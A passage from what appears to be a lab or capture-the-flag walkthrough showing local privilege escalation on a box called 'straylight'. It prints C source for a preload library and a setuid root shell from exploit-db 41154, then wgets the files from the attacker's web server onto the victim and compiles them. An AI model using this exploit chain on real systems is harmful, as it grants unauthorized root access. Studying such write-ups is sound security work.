 ```console
root@kali:~$ wget https://www.exploit-db.com/download/41154 -O exploit.sh
```

I broke down the exploit, so it was not possible to run it directly.

libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

We verify that gcc is installed on the target.

```console
www-data@straylight:/var/www/html/turing-bolo$ which gcc
which gcc
/usr/bin/gcc
www-data@straylight:/var/www/html/turing-bolo$
```

We start a python web server on port 80.

```console
root@kali:~$ python3 -m http.server 80
```

Then, we transfer the c lenguage files to the victim machine.

```console
www-data@straylight:/tmp$ wget 192.168.179.1/{libhax.c,rootshell.c}
```

We compile them.

```console
www-data@straylight:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c 
www-data@straylight:/tmp$ gcc -o /tmp/rootshell /tmp/rootshell.c
```
